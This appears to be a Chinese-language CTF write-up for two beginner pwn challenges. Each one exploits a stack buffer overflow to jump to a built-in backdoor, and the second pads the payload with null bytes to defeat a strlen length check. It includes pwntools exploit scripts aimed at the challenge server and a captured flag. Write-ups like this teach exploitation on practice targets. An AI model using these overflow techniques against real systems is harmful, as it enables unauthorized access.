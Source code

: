 基础栈溢出

有backdoor

![image-20221115155537426](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151555492.png?x-oss-process=hzy)

![image-20221115160408177](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151604248.png?x-oss-process=hzy)



```
from pwn import *
context.log_level="debug"
#p = process("./pwn1_1")
p = remote('gxh191.top',25544)
payload = b'a'*24 +p64(0X401196)
p.sendline(payload)
p.interactive()
```

![image-20221115160520246](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151605327.png?x-oss-process=hzy)

SYC{w3l[oMe-70-yovr_8a[Kd0or_w0r1d~17-15-3a2y}

## pwn2_1

首先先是checksec

![image-20221116010635098](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211160106204.png?x-oss-process=hzy)

发现和第一个一样，而且也是有/bin/sh

只不过看main函数的时候发现多了一个长度限制

![image-20221116010708138](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211160107204.png?x-oss-process=hzy)

其他都和第一个栈溢出一样，所以这道题目的思路无非就是多了个长度绕过，主函数main中read后的if判断，read函数可以读取16个字符，但if条件中只允许字符长度为9，因此，可通过在payload中间的位置填充0x00，使得strlen函数截断，虽然read函数超过了9个字节，但strlen的返回值仍然不大于9

接下来gdb动态调试

![image-20221116011429302](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211160114389.png?x-oss-process=hzy)

单步n，一直到read的位置，这是堆栈空间还没有被污染的样子，main函数执行完后，会从堆栈中弹出下一条指令的地址（这是main返回后要去的地方）

![image-20221116011654924](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211160116991.png?x-oss-process=hzy)

箭头指的地方就是即将要跳转到的地址

```
from pwn import *
context.log_level = "debug"
#r = process('./pwn2_1')
r = remote('gxh191.top',25540)

shell_addr = 0x4011EF
payload = b'\x00' * 0x18 + p64(shell_addr)
# 只要buf在前16字节有\x00就可以绕过strlen
# payload = 'a'*0x07+'\x00'+'a'*0x10 + p64(shell_addr)

r.recvuntil('This is your second pwn challenge ;)\n')
r.sendline(payload)
r.interactive()


```
